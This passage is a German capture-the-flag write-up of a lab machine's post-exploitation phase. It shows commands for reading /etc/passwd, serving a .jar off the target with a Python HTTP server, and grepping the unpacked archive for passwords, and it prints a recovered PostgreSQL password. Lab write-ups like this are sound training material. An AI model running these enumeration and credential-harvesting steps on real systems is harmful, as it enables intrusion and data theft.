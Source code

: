 Nach dem erfolgreichen Erhalt einer Shell, inspizierte ich den aktuellen Arbeitsverzeichnisinhalt und fand die Datei `cloudhosting-0.0.1.jar`:

```shell
$ ls -al
# total 58856
# drwxr-xr-x  2 root root     4096 Aug 14 14:11 .
# drwxr-xr-x 19 root root     4096 Aug 14 14:11 ..
# -rw-r--r--  1 root root 60259688 Aug 11 00:45 cloudhosting-0.0.1.jar
```

Des Weiteren verschaffte ich mir einen Überblick über die Benutzer des Systems:

```shell
app@cozyhosting:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
.
.
.
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```

Hier stach mir vor allem die Datenbank `postgres SQL` und der Benutzer `josh` ins Auge. Diese werden später noch von Bedeutung sein.

Um die `.jar` Datei näher zu analysieren, wollte ich sie auf meinen lokalen Rechner herunterladen. Um dies zu erreichen, startete ich auf dem Ziel Rechner einen einfachen HTTP-Server mit folgendem Befehl:

`python3 -m http.server 8083`

Nachdem ich die Datei `cloudhosting-0.0.1.jar` heruntergeladen hatte, entpackte ich sie, um ihren Inhalt näher zu betrachten. Mein Hauptaugenmerk lag auf sensitiven Informationen, insbesondere Passwörtern. Dazu durchsuchte ich rekursiv alle Dateien im entpackten Verzeichnis nach dem Begriff "Password":

```shell
grep -r "password"
.
.
.
INF/classes/application.properties:spring.datasource.password=Vg&nvzAQ7XxR
```

Weiter schaute ich die Folgende Datei genauer an `INF/classes/application.properties` .
Ich öffnete diese Datei mit `cat`

```shell
cat BOOT-INF/classes/application.properties

# server.address=127.0.0.1
# server.servlet.session.timeout=5m
# management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
# management.endpoint.sessions.enabled = true
# spring.datasource.driver-class-name=org.postgresql.Driver
# spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
# spring.jpa.hibernate.ddl-auto=none
# spring.jpa.database=POSTGRESQL
# spring.datasource.platform=postgres
# spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
# spring.datasource.username=postgres
# spring.datasource.password=Vg&nvzAQ7XxR
```
